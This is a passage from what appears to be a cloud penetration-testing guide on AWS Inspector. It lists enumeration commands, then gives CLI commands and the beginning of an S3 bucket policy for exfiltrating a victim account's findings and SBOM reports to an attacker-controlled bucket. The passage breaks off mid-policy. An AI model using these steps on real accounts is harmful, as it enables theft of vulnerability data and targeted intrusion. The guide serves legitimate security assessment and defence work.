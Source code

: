 ```bash
aws inspector list-event-subscriptions

## Get findings
aws inspector list-findings

## Get exclusions
aws inspector list-exclusions --assessment-run-arn <arn>

## Rule packages
aws inspector list-rules-packages
```

### Post Exploitation

{% hint style="success" %}
From an attackers perspective, this service can help the attacker to find vulnerabilities and network exposures that could help him to compromise other instances/containers.

However, an attacker could also be interested in disrupting this service so the victim cannot see vulnerabilities (all or specific ones).
{% endhint %}

#### `inspector2:CreateFindingsReport`, `inspector2:CreateSBOMReport`

An attacker could generate detailed reports of vulnerabilities or software bill of materials (SBOMs) and exfiltrate them from your AWS environment. This information could be exploited to identify specific weaknesses, outdated software, or insecure dependencies, enabling targeted attacks.

```bash
# Findings report
aws inspector2 create-findings-report --report-format <CSV | JSON> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--filter-criteria <value>]
# SBOM report
aws inspector2 create-sbom-report --report-format <CYCLONEDX_1_4 | SPDX_2_3> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--resource-filter-criteria <value>]
```

The following example shows how to exfiltrate all the Active findings from Amazon Inspector to an attacker controlled Amazon S3 Bucket with an attacker controlled Amazon KMS key:

1. **Create an Amazon S3 Bucket** and attach a policy to it in order to be accessible from the victim Amazon Inspector:

```json
{
	"Version": "2012-10-17",
	"Statement": [
		{
			"Sid": "allow-inspector",
			"Effect": "Allow",
			"Principal": {
				"Service": "inspector2.amazonaws.com"
			},
			"Action": [
				"s3:PutObject",
				"s3:PutObjectAcl",
				"s3:AbortMultipartUpload"
			],
			"Resource": "arn:aws:s3:::inspector-findings/*",
			"Condition": {
				"StringEquals": {
					"aws:SourceAccount": "<victim-account-id>"
				},
				"ArnLike": {
					"aws:SourceArn": "arn:aws:inspector2:us-east-1:<victim-account-id>:report/*"
```
